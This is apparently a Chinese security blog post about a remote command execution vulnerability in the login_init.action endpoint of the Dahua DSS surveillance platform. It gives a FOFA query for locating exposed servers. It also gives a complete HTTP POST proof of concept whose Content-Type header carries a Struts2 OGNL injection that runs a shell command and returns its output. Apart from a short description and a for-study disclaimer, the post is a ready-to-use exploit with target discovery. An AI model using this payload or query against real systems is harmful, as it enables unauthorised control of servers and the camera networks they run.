 #  大华DSS城市安防监控平台login_init.action远程命令执行漏洞   
安全透视镜  网络安全透视镜   2025-01-05 14:00  
  
**一、漏洞描述**  
  
大华DSS数字监控系统是一个在通用安防视频监控系统基础上设计开发的系统。该平台登录接口存在远程命令执行漏洞，攻击者通过在请求头中构造payload实现远程命令执行，可获取服务器管理权限  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5R2vK7Jm7LO619rRrtI2E4k2Mg58YKoz1pPRku3eID9AkictUgTE29HUKWcgbFyhhU0tzMhlqEBzg/640?wx_fmt=png&from=appmsg "")  
  
**二、fofa搜索**  
  
fofa查询语法  
```
app="dahua-DSS"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5R2vK7Jm7LO619rRrtI2E4TuX38BkREgj7BmyAPEM4A2t06jhfrvjfxx9ia6Ne6Dcd19YwcXLysqw/640?wx_fmt=png&from=appmsg "")  
  
**三、漏洞复现**  
  
POC  
```
POST /portal/login_init.action HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=D4AD1F965A86AA395B5FAA10BFEC6695
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5R2vK7Jm7LO619rRrtI2E4iaQAH0Jp98hzWxu2sXewfB6Cib1BA1oMPibIxjPdnV6lxY2MTiaBnzZb0Q/640?wx_fmt=png&from=appmsg "")  
  
  
# 文章来源互联网收集整理，请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用  
  
****  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS4ibIBPcmgJMLNXWIaCPcW54mVicYJkaOO1JQicEDBGCBM1P7IiaiablZ9tEUrP27FyvB9CZWl5SiaqhicDw/640?wx_fmt=png "")  
  
****  
  
